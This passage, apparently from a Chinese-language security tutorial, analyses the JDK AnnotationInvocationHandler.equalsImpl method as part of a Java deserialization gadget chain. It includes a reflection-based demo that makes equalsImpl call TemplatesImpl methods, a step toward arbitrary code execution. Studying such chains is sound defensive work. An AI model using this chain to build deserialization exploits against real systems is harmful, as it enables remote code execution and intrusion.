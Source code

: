 ```java
private Boolean equalsImpl(Object var1) {
    if (var1 == this) {  
        return true;
    } else if (!this.type.isInstance(var1)) {  // 必须与this.type同类型
        return false;
    } else {
        Method[] var2 = this.getMemberMethods();  //调用getMemberMethods，获得所有方法
        int var3 = var2.length;

        for(int var4 = 0; var4 < var3; ++var4) { // 遍历所有方法
            Method var5 = var2[var4];  
            String var6 = var5.getName();
            Object var7 = this.memberValues.get(var6);
            Object var8 = null;
            AnnotationInvocationHandler var9 = this.asOneOfUs(var1);
            if (var9 != null) {
                var8 = var9.memberValues.get(var6);
            } else {
                try {
                    var8 = var5.invoke(var1);  // 通过反射进行方法调用
                } catch (InvocationTargetException var11) {
                    return false;
                } catch (IllegalAccessException var12) {
                    throw new AssertionError(var12);
                }
            }

            if (!memberValueEquals(var7, var8)) {
                return false;
            }
        }

        return true;
    }
}
```
结合上面代码，我们可以得出结论：
1. this.type与var1必须同类型
2. 只要调用equalsImpl方法，this.type的所有方法都会被调用
3. 如果this.type是Templates呢？不就可以调用getOutputProperties/newTransformer了？

我们可以轻松构造demo验证：
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

import javax.xml.transform.Templates;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class annotationInvocationHandler {
    public static void main(String[] args) throws Exception{
        Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = aClass.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object ahObject = constructor.newInstance(Templates.class, new HashMap<String, Object>());

        Method equalsImpl = aClass.getDeclaredMethod("equalsImpl", Object.class);
        equalsImpl.setAccessible(true);
        equalsImpl.invoke(ahObject, new templatesImpl().getTmpl());
    }
}
```